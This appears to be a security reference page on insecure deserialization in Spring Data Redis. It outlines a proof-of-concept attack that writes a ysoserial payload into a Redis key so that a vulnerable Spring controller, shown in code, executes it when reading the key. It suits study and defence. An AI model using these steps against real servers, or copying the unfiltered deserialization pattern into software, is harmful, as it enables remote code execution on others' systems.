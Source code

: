 # Spring Data Redis overview

Spring Data Redis, part of the larger Spring Data family, provides easy configuration and access to Redis from Spring applications. Spring Data Redis first serializes data before writing data to Redis. By default, Java native serialization is used for serialization.

{% raw %} {% embed url="https://github.com/spring-projects/spring-data-redis/blob/master/src/main/asciidoc/reference/redis.adoc#serializers" %} {% endraw %}

# Insecure deserialization

When Spring Data Redis retrieves data from Redis, the stored bytecode is deserialized. Since the target class is not checked or filtered during deserialization it can lead to remote code execution.

Example of exploitation:

1. Generate payload with [ysoserial](https://github.com/frohoff/ysoserial)
2. Write the generated payload in Redis:

    ```java
    // Try to choose a key that already exists in Redis so that code execution can start when Spring retrieves data
    redis.set("\xac\xed\x00\x05t\x00\brebeyond", payload);
    ```

3. Trigger or wait for Spring to retrieve data, example of vulnerable code:

    ```java
    @Controller
    public class HelloController {
   
        protected RedisTemplate<Serializable, Serializable> redisTemplate;

        @GetMapping("/")
        public String index() {
            Object result = redisTemplate.opsForValue().get("rebeyond");
            return "index";
        }
    }
    ```

4. Server starts calculator successfully:

    ![](img/redis-rce-calc-poc.png)
    
    The call stack is as follows:
    
    ![](img/redis-rce-stacktrace-poc.png)

# References

- [Spring Data Redis <=2.1.0 Deserialization Vulnerability](https://xz.aliyun.com/t/2339)